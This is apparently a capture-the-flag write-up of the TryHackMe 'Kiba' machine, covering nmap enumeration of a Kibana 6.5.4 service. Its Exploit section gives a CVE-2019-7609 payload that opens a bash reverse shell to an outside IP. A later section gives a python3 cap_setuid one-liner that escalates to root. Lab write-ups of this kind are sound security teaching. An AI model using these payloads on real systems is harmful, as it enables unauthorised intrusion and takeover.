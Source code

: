 # Nmap
We start with nmap TCP 
```sh
┌──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p-  --min-rate 2000 -vv -Pn -oA init

...
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack

```
Results:
```sh
──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p22,80,5044,5601  --min-rate 2000 -vv -Pn -oA openscsvs -sC -sV

...PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
|   256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc? syn-ack
5601/tcp open  esmagent?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:09 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:04 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:06 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
.....
```

# Port 80
Enumerated with whatweb, nikto, dirb. Not much useful information for now
Only linux capabilities?/?

# port 5044
Nmap gave no info about port 5044. I checked it with nc to grab the banner. Also no results:

```sh
nc -nvv 10.10.195.146 5044

(UNKNOWN) [10.10.195.146] 5044 (?) open

```

Let's continue

# Port 5601
From the nmap results we can see that there is an http 302 code. which means a redirect. When we visit:
http://kiba.thm:5601 we get redirected to http://kiba.thm:5601/app/kibana

After googling what kibana is:

> Kibana is an free and open frontend application that sits on top of the Elastic Stack, providing search and data visualization capabilities for data indexed in Elasticsearch.

We will enumerate the application and look For some version numbers.

Got io! We fund the version by clivking on Management. Version: 6.5.4

# Exploit
After googling for 'kibana 6.5.4 vulnerabilites' We finnd cve-2019-7609. This vulnerabultity allows us to execute code on the machine.

Instructions for the expoloit can be found here: https://github.com/mpgn/CVE-2019-7609

```sh
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.40.46/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
BAM! We have a shell as user 'kiba'. We can read the user flag from kiba's home directory.

# Pivileges escalation
Linpeas showed an interesting file with capabilites:

Manual searching for binaries with capabilites:
```sh
getcap -r / 2>/dev/null
```

Capabilites https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities

cap_setuid+ep

```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
So what happens here:
 The CAP_SETUID capability is described as: Make arbitrary manipulations of process UIDs [source](https://man7.org/linux/man-pages/man7/capabilities.7.html)
 UID is the User Identifier. A process carries the UID pf the user who started the process. The UID is used to decide teh privilege to preform operations on resources.
 The UID 0 is reserved for root users. 
 On the home/kiba/.hackmeplease/python3 binary we have setuid capabilites. which means that we can  manipulate the process UID. 
 Sounds great to set the UID to 0 on the process we start with python. 

 But first check what happens if we don't change the UID en we execute the python command with the UID of the current user kiba.
 
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.system("/bin/bash")'
```
We can get the process id with:
```sh
ps -aux | grep python3
```
Then we can get the UID of the process with:
```sh
ps -p <PID> -o uid
```
Here we see that the UID is 1000

Now with the UID set to 0:
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Here we see that we are runing the process as the user root and the UID is set to 0 as we expected.

